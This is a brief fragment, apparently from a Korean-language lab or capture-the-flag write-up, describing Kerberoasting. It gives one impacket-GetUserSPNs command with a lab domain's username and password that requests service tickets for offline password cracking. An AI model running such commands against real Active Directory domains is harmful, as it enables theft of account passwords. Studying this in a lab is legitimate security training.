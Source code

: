 
- **목적:** 서비스 주체 이름(SPN)이 등록된 계정을 찾아 서비스 티켓을 요청하고, 이를 오프라인에서 크랙하여 계정의 비밀번호를 알아냅니다.
- ---

```bash
impacket-GetUserSPNs -dc-ip $target 'vulnnet-rst.local/t-skid:tj072889*' -request
```



